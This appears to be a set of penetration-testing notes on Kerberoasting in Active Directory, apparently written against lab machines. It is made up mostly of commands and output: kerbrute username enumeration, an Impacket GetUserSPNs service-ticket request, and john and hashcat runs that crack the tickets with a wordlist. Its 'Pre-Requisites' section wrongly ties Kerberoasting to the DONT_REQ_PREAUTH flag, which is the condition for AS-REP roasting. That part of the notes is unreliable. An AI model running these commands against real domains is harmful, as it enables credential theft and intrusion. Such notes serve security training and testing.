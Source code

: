 # Kerberoasting

Kerberoasting is a type of attack against Microsoft Active Directory environments that involves extracting service account passwords from Kerberos tickets. Service accounts are often used to run automated processes and scheduled tasks, and because they often have high privileges within an organization, they can be a valuable target for attackers.

The basic method of kerberoasting involves requesting a ticket for a service account, then cracking the encrypted password hash that is included in the ticket.

# Pre-Requisites

Kerberoastable users need to have the `DONT_REQ_PREAUTH` flag set.

``` 
$   kerbrute userenum -d MCDONALDS.LOCAL SecLists/Usernames/xato-net-10-million-usernames.txt --dc dc-01.htb                                                            


    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: dev (n/a) - 02/08/23 - Ronnie Flathers @ropnop

2023/02/08 14:26:09 >  Using KDC(s):
2023/02/08 14:26:09 >   10.10.10.175:88

2023/02/08 14:26:45 >  [+] VALID USERNAME:       administrator@MCDONALDS.LOCAL
2023/02/08 14:30:08 >  [+] VALID USERNAME:       dudi@MCDONALDS.LOCAL
2023/02/08 14:30:32 >  [+] VALID USERNAME:       sagi@MCDONALDS.LOCAL
2023/02/08 14:31:49 >  [+] VALID USERNAME:       ido@MCDONALDS.LOCAL
2023/02/08 14:48:58 >  [+] VALID USERNAME:       overlord@MCDONALDS.LOCAL
```

# SPNs

If a user account has an SPN, we can request a TGS on his behalf, which we can crack offline to get the password.

```
python GetUserSPNs.py -k scrm.local/ksimpson:ksimpson -dc-ip 10.10.11.168 -target-domain scrm.local -dc-host dc1.scrm.local -outputfile kerberoastables.txt
```
```
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation
ServicePrincipalName          Name    MemberOf  PasswordLastSet             LastLogon                   Delegation
----------------------------  ------  --------  --------------------------  --------------------------  ----------
MSSQLSvc/dc1.scrm.local:1433  sqlsvc            2021-11-03 12:32:02.351452  2023-05-21 11:51:15.168848
MSSQLSvc/dc1.scrm.local       sqlsvc            2021-11-03 12:32:02.351452  2023-05-21 11:51:15.168848
```
Cracking the hash:
```
john kerberoastables.txt --wordlist=/usr/share/wordlists/rockyou.txt
```
```
hashcat -a 0 -m 19600 kerberoastable.txt /usr/share/wordlists/rockyou.txt
# -m flags
  19600 | Kerberos 5, etype 17, TGS-REP
  19700 | Kerberos 5, etype 18, TGS-REP
  13100 | Kerberos 5, etype 23, TGS-REP
```
